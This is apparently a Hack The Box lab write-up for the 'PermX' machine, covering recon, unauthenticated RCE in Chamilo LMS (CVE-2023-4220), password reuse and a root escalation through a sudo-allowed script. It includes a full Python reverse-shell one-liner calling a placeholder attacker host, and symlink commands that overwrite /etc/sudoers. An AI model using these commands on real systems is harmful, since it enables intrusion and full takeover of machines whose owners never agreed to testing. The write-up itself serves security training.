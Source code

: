 🧠 HTB: PermX Walkthrough

    Difficulty: Easy-Medium
    Author: pk2212
    Exploitation: Chamilo CVE-2023-4220 → Password reuse → Privilege Escalation via sudo-abused script

TL;DR Summary

    Gained initial access via an unauthenticated RCE in Chamilo LMS (CVE-2023–4220)

    Discovered password reuse for user mtz via LinPEAS

    Escalated privileges to root using sudo access on a custom script (/opt/acl.sh)

🔎 Recon

A quick nmap scan revealed:

22/tcp  open  ssh  
80/tcp  open  http

The main website on port 80 lacked any useful functionality, so I moved on to content discovery. Using ffuf, I discovered a subdomain:

lms.permx.htb

This led to a Chamilo LMS login portal.
⚔️ Exploitation (Initial Access)

I looked up public exploits for Chamilo and found CVE-2023-4220 — an unauthenticated RCE via file upload.

Using the provided Python PoC, I obtained a working webshell and then upgraded to a reverse shell using the Python3 one-liner from revshells.com.

# Reverse shell payload
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("attacker-ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

🎯 Got a shell as www-data.
🧬 Post-Exploitation & Privilege Escalation

After basic manual enumeration, I ran LinPEAS, which revealed a password in Chamilo’s config file.

This password successfully worked for SSH login as user mtz.

ssh mtz@permx.htb

✅ user.txt captured.
🚀 Root Access

As mtz, I had sudo rights to execute:

/opt/acl.sh

Reading the script revealed it manipulated file permissions.

To abuse this, I created a symlink named file pointing to /etc/sudoers.

ln -s /etc/sudoers file
sudo /opt/acl.sh file read write

Opening the file symlink gave access to /etc/sudoers. I modified it to grant mtz passwordless root:

mtz ALL=(ALL) NOPASSWD:ALL

Then simply ran:

sudo su

🎉 Root access achieved.
📄 Grabbed root.txt.
✅ Conclusion

    ✅ Enumerated services & subdomains

    ✅ Exploited Chamilo LMS for unauthenticated RCE

    ✅ Found user creds via LinPEAS

    ✅ PrivEsc via abused custom sudo script****
